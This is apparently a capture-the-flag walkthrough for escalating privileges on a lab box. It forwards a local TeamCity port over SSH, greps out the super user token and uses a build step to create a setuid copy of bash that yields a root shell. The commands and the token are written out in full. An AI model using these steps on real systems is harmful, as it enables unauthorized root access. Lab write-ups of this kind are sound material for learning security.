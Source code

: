 netstat is not on the box, we enumerate by using `ss -tnol`

we find port the machine is listening locally on port`8111`

we decide to forward this port to port 8080 on our machine:

```
ssh -L 8080:127.0.0.1:8111 sys-internal@10.10.117.165 
```

---

going to `localhost:8080` brings us to a TeamCity login page. We don't have creds but we can login as super user using this method:

https://www.jetbrains.com/help/teamcity/super-user.html

after reading this, we grep for `super user authentication token` in the `/TeamCity/` directory

```
grep -R "Super user authentication token" 2>/dev/null
```

We find a token: `1332699655241810345`


---

After logging in, we build a new project.

There is a build step option to run command line. Because TeamCity runs as root, we can create a copy of `/bin/bash` in `/tmp`

```
cp /bin/bash /tmp/gimmeroot; chmod u+s /tmp/gimmeroot
```

run the build

cd to /tmp/
remember to use -p flag to retain permissions
```
./gimmeroot -p
```
